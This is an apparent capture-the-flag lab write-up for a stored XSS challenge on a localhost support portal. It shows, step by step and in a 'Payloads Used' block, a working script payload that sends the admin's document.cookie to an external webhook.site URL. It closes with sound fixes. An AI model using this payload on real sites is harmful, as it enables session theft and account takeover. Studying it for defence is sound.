




# XSS 0x03 [Challenge]

## What is this challenge?
A support portal where users submit tickets.
The admin reviews tickets in an admin-only page.
Goal: use Stored XSS to steal the admin's cookie
when they view our submitted ticket.

## Target
http://localhost/labs/x0x03.php
Admin page: http://localhost/labs/x0x03_admin.php

## Vulnerability
The support ticket message field is rendered
unsafely on the admin page. When the admin views
the ticket, our injected script runs in their
browser context.

## Attack

### Step 1 — Set up Webhook listener
Went to webhook.site to get a unique URL
to receive stolen cookies remotely:
https://webhook.site/96460f11-77ba-4fec-...

### Step 2 — Identify the lab
Opened XSS 0x03 — Support portal with
ticket submission form.

### Step 3 — Craft cookie-stealing payload
Built payload that sends the admin's cookie
to our webhook URL using an Image object:
<script>
var i=new Image;
i.src="https://webhook.site/96460f11-.../?"+document.cookie;
</script>

### Step 4 — Submit malicious ticket
Submitted the ticket with:
- Name: jeremy
- Message: (the XSS payload above)

### Step 5 — Trigger as admin
Opened the admin page in another container:
http://localhost/labs/x0x03_admin.php
The admin page rendered our payload and the
script executed in the admin's browser.

### Step 6 — Confirm cookie exfiltration
Checked webhook.site inbox:
Received GET request from 190.2.149.222
with the admin's cookie in the URL!
Successfully stole admin's session cookie.

## Payloads Used
```html
<script>var i=new Image; i.src="https://webhook.site/96460f11-77ba-4fec-b30e-59f0aa3b6561/?"+document.cookie;</script>
```

## Screenshots





## Impact
- Remote cookie exfiltration via webhook
- Full admin account takeover possible
- No user interaction needed beyond viewing
- Attacker stays anonymous (data leaves server)

## Fix
- HTML encode all output on admin pages
- Set HttpOnly flag on session cookies
- Implement strict Content Security Policy
- Sanitize input with a library like DOMPurify
- Use SameSite=Strict on cookies
